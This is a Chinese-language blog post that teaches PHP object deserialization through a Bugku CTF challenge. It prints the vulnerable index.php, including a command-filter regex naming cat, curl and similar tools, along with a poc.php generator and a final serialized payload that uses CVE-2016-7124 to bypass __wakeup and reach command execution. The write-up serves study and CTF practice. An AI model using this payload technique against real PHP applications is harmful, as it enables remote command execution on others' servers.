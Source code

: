 
+++
title = "PHP 反序列化"
topics = ["Pentest"]
tags = ["deserialize"]
description = "我的个人博客，主要用于记录自己的一些学习笔记之类的东西，其中有渗透测试、python、php等。"
date = "2021-07-08T17:08:50+08:00"
draft = false
+++

### 0x01 php 中的魔法函数
__construct()：PHP 中类的构造函数，创建对象时调用。具有构造函数的类会在每次创建新对象时先调用此方法，所以非常适合在使用对象之前做一些初始化工作。

__destruct()：PHP 中类的析构函数，销毁对象时调用。PHP 5 后引入了析构函数的概念，析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。

__toString() 当一个对象被当作一个字符串使用。

__sleep() 在对象在被序列化之前被调用。

__wakeup 将在序列化之后立即被调用。

### 0x02 序列化和反序列化
serialize() 会检查类中是否存在一个魔术方法 __sleep()。如果存在，该方法会在 __construct 后被调用，然后才执行序列化操作。

unserialize() 会检查类中是否存在一个 __wakeup() 方法。如果存在，则会在 __destruct 前调用 __wakeup 方法，预先准备对象需要的资源。

### 0x03 序列化字符串格式
在 PHP 序列化得到的字符串中，字段根据长度判断内容、以 ; 作为字段的分隔、以 } 作为结尾(字符串除外)
```php
O:3:"ctf":2:{s:11:"username";s:5:"admin";s:6:"cmd";s:2:"ls";}

O 代表对象，因为我们序列化的是一个对象，序列化数组则用 A 来表示
3 代表类名长度 
ctf 是类名
2 代表两个属性

s 代表字符串
11 代表属性名长度
username 是属性名
s:5:"admin" 属性值时字符串 属性值长度 属性值
```

### 0x04 序列化中的访问控制修饰符
需要<f>注意</f>的是当访问控制符为 private 与 protect 时，序列化时比较特殊：

protected 属性被序列化的时候属性值会变成：%00\*%00 属性名

private 属性被序列化的时候属性值会变成：%00类名%00 属性名

### 0x05 题目
Bugku CTF 的题 index.php
```php
<?php 
header("Content-Type: text/html;charset=utf-8");
error_reporting(0);
echo "<!-- YmFja3Vwcw== -->";
class ctf {
    protected $username = 'hack';
    protected $cmd = 'NULL';
    public function __construct($username, $cmd) {
        $this->username = $username;
        $this->cmd = $cmd;
    }
    function __wakeup() {
        $this->username = 'guest';
    }

    function __destruct() {
        if(preg_match("/cat|more|tail|less|head|curl|sort|echo/i", $this->cmd)) {
            exit('</br>flag能让你这么容易拿到吗？<br>');
        }
        if ($this->username === 'admin') {
           // echo "<br>right!<br>";
            $a = `$this->cmd`;
            var_dump($a);
        } else {
            echo "</br>给你个安慰奖吧，hhh！</br>";
            die();
        }
    }
}

$select = $_GET['code'];
$res = unserialize(@$select);
?>
```

### 0x06 构造 poc
题目中当 \$this->username 为 admin 时才执行命令 \`$this->cmd`

所以我们需要设置 username 为 admin，同时给 cmd 设置值

poc.php
```php
<?php
class ctf {
    protected $username;
    protected $cmd;
    public function __construct($username, $cmd)
    {
        $this->username = $username;
        $this->cmd = $cmd;
    }
}

$cmd = $_GET["cmd"]?$_GET['cmd']:"ls";
$code = serialize(new ctf('admin', $cmd));
echo $code;
?>
```
输出：O:3:"ctf":2:{s:11:"\*username";s:5:"admin";s:6:"\*cmd";s:2:"ls";}

因为访问控制符为 private，所以 poc 需要改为：

```php
<?php
class ctf {
    protected $username;
    protected $cmd;
    public function __construct($username, $cmd)
    {
        $this->username = $username;
        $this->cmd = $cmd;
    }
}

$cmd = $_GET["cmd"]?$_GET['cmd']:"ls";
$code = serialize(new ctf('admin', $cmd));
echo str_replace("*", "%00*%00", $code);
?>
```

输出：O:3:"ctf":2:{s:11:"%00\*%00username";s:5:"admin";s:6:"%00\*%00cmd";s:2:"ls";}

当题目中的代码反序列化我们提交的 code 参数(序列化后的字符串，其实是类) 时，类会先调用构造函数 __construct，从而设置 username 为 admin、cmd 为 ls

结束时我们的类调用析构函数 __destruct 时，$this->username === 'admin' 就会为 true

因为 unserialize() 在执行时会检查是否存在 __wakeup() 方法，题目中显然是存在的，所以执行完 __construct 后会再执行 __wakeup，那 $this->username 会再次被赋值为 'guest'，这里将变量个数修改为大于实际值的数就能够绕过(CVE-2016-7124)，所以最终 poc 为：
`O:3:"ctf":<f>5</f>:{s:11:"%00\*%00username";s:5:"admin";s:6:"%00\*%00cmd";s:2:"ls";}`

### 0x07 利用
每次本地访问 poc.php?cmd=whoami、poc.php?cmd=ls 生成对应的 poc

然后访问 index.php?code=O:3:"ctf":2:{xxxxxxxxxx} 即可

